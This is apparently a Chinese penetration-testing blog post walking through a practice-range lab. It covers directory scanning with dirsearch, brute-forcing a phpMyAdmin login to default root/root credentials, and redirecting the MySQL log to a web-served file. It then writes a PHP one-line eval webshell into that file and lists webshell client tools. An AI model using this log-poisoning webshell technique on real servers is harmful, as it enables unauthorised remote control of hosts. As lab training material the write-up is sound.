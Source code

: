 +++
title = 'Part3.对目标web服务器进行目录扫描和密码爆破'
date = 2024-10-10T11:34:24+08:00
draft = false

categories = [ '渗透测试']

tags = ['hongrisec_1靶场']

weight = 108

+++

# Part3.对目标web服务器进行目录扫描和密码爆破

### 使用dirsearch工具进行目录扫描

![image-20240912195755364](https://gitee.com/huangzejie/drawing-bed/raw/master/202409121957614.png)

因为通过前面的nmap端口扫描，我们已经发现了80端口是开放的，所以我们就可以接着使用dirsearch工具对这个ip地址网站进行目录扫描，看看哪些网站可以登录

![image-20240912195809141](https://gitee.com/huangzejie/drawing-bed/raw/master/202409121958242.png)

### 针对phpMyAdmin网站进行密码爆破

这里的index.php网站登录进去可以知道这个这个网站是php探针，针对这个网站，我们就可以进行phpadmin爆破

![image-20240912200133756](https://gitee.com/huangzejie/drawing-bed/raw/master/202409122001813.png)

将网址保存到txt文件中，再通过导入网址，读取txt，就可以进行密码爆破，这里爆破成功的是root，root

![image-20240912200315437](https://gitee.com/huangzejie/drawing-bed/raw/master/202409122003571.png)

这样我们就成功登录服务器后台

### 通过mysql命令更改日志，植入木马

之后我们就可以进行日志中放木马的方式去控制这个主机

所以，首先我们要查询到日志文件的位置

![image-20240912200532363](https://gitee.com/huangzejie/drawing-bed/raw/master/202409122005460.png)

这里可以发现这个系统日志是关闭的

![image-20240912200656232](https://gitee.com/huangzejie/drawing-bed/raw/master/202409122006347.png)

![image-20240913094453158](https://gitee.com/huangzejie/drawing-bed/raw/master/202409130944190.png)

![image-20240912201408947](https://gitee.com/huangzejie/drawing-bed/raw/master/202409122014591.png)

将日志文件设置为自己创建的文件

![image-20240913093810029](https://gitee.com/huangzejie/drawing-bed/raw/master/202409130938119.png)

再查看一下是否更改成功

![image-20240913094416274](https://gitee.com/huangzejie/drawing-bed/raw/master/202409130944324.png)

已经成功

### 在日志中写入木马

```shell
select '<?php eval($ POST[1]); ?>';
```
这句话是[一句话木马]()


![image-20240913095459564](https://gitee.com/huangzejie/drawing-bed/raw/master/202409130954653.png)

在mysql中运行，就会被记录在日志里

![image-20240913100028312](https://gitee.com/huangzejie/drawing-bed/raw/master/202409131000413.png)

代码审计，打开web服务器文件查看

![image-20240913100502842](https://gitee.com/huangzejie/drawing-bed/raw/master/202409131005916.png)

接下来如何控制别人电脑呢？

可以根据web服务器使用的编程语言和框架选择性地使用以下工具：

1. AntSword（php）
2. 哥斯拉（php，java）
3. 冰蝎（java）